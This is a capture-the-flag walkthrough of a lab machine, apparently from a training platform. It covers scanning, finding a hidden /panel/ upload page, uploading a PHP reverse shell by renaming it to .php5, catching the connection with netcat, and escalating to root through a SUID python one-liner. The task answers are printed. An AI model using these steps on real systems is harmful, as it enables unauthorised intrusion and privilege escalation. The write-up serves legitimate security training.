

Let's start with a fast scan, i normally use rustscan to gather the open ports faster:
```sh
rustscan --top -a <victim_ip> | tee initialScan.txt
```

once it's finished, i copy the open ports and scan them with nmap looking out for the versions of the services hosted in those ports
```sh
 sudo nmap -sC -sV -p<ports> <ip> -oN targeted
```

Now, the scan shows that the machine is hosting a web server with Apache, we can take a look at the directories the website has with gobuster
```sh
gobuster dir -t 45 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://<ip>/
```

### Task 2 
    How many ports are open? 2

    What version of Apache is running? 2.4.29

    What service is running on port 22? SSH

	What is the hidden directory? /panel/

### User Flag
Visiting the website shows us this 

and going to the /panel route shows a file upload page

There's an arbitrary file upload vulnerability in this page, allowing us to upload a maliciously crafted php file that we can use to upload and execute a reverse shell, you can use this shell from pentestmonkey
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


But php is not allowed to be uploaded, we can bypass this validation changing the file extension to be php5


Then start a listener with netcat:
```sh
nc -lvnp 4242
```
navigate to the route where your file is uploaded, for example: /uploads/shell.php5
and you got the shell


Once obtained the shell, let's find the flag and get it!
```sh
find / -name user.txt 2>/dev/null
cat /var/www/user.txt
```
### Root Flag
Find binaries with SUID permissions that allow users to execute the binary with the permissions of the owner of the file, rather than the user who runs the command (most of the times is root).
```sh
find / -perm -4000 2>/dev/null
```

And look at that, python? Let's check what user is the owner of the binary
```
ls -la /usr/bin/python
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
```
Sweet! it's root. You can use gtfobins to look for info about a binary you can possibly use to escalate privileges:
https://gtfobins.github.io/gtfobins/python/

 we can execute a oneliner to spawn a shell as root and obtain the final flag
```sh
/usr/bin/python -c 'import os; os.execl("/bin/sh","sh","-p")'
```


```sh
cat /root/root.txt
```
and you got the root flag!!

### Conclusion
This machine covers topics like Arbitrary File Uploads and exploiting binaries with SUID permissions to escalate privileges.


<mark>Hope you enjoyed it and Happy Hacking!</mark>